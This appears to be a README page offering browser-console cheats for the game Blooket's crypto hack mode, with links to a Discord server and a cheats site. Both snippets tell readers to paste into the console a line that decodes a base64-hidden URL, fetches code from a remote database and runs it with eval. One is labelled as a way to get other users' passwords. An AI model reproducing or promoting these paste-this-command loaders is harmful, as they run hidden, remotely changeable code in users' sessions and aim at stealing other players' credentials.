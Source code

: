 **Discord server: https://discord.gg/K5xUbuDqmG**

**These bookmarklets are also on: https://schoolcheats.net/blooket**

# crypto

This cheat only works in crypto hack game mode!

# getCrypto.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9jcnlwdG9HZXRDcnlwdG8uanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```

# getOtherUsersPassword.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9jcnlwdG9HZXRPdGhlcnNQYXNzd29yZHMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
```
